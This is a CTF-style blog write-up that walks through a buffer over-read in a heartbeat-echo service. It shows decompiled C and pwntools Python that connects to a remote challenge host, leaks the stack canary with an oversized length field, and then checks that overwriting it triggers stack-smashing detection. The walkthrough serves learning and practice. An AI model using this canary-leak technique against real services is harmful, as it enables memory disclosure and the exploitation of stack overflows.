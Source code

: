 <font size="4">
<p>Let's pay attention to those two lines first (technically four, but two are more or less print statements, so you know what I mean):</p>
{% highlight C %}
// From exploit2_ghidra_ed.c
puts("\nWaiting for heart beat request...");
__isoc99_scanf(" %d:%s",&local_41c,local_418);
puts("Sending heart beat response...");
write(1,local_418,(long)local_41c);
{% endhighlight %}
<p>The program takes the length of the input and stores it as <code>local_41c</code>, and the string as <code>local_418</code> of length 1032 bytes, but using <code>scanf()</code> function! </p>

<p>Then, there is another local variable <code>local_10</code>. This is actually quite interesting.</p>
</font>

<font size="4">
{% highlight C %}
// from exploit2_ghidra_ed.c
if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
{% endhighlight %}
</font>

<font size="4">
<p>It appears that if <code>local_10</code> is different from what it is supposed to be, the program returns fail. Ah, so <code>local_10</code> is the stack canary!</p>

<p>We can bypass the stack canary by figuring out its value, then overwrite it with its value when building our attack payload. We can have it print out <code>local_10</code>by filling up <code>local_418</code> with 1032 characters but giving it a length longer than 1032.</p>

{% highlight python %}
nc_ed = pwn.remote('34.123.210.162', '20233')
nc_ed.recvuntil("Waiting for heart beat request...")

payload = b'1048:' + b'a' * 1032 # 1032 + 16 = 1048
nc_ed.sendline(payload)

nc_ed.recvuntil("a" * 1032)
canary_ish_thingy = nc_ed.read(8) # signed long integer = 8 bytes
{% endhighlight %}

<p>I did +16 instead of +8 to see if I could also read the return address, but in the end, it was not very necessary---please keep reading if you are curious why :). </p>

<p>As a sanity check, I wanted to make sure that whether we actually reached and can overwrite <code>local_10</code>, and whether that <code>canary_ish_thingy</code> is in fact <code>local_10</code>. Let's first see if changing the value beyond <code>local_418</code> actually triggers the "smashing detection" system:
</p>
{% highlight python %}
payload += b'b' * 16
nc_ed.sendline(payload)
nc_ed.recvuntil("Waiting for heart beat request...")
nc_ed.sendline(b'0:a')
nc_ed.interactive() # *** stack smashing detected ***: terminated
{% endhighlight %}
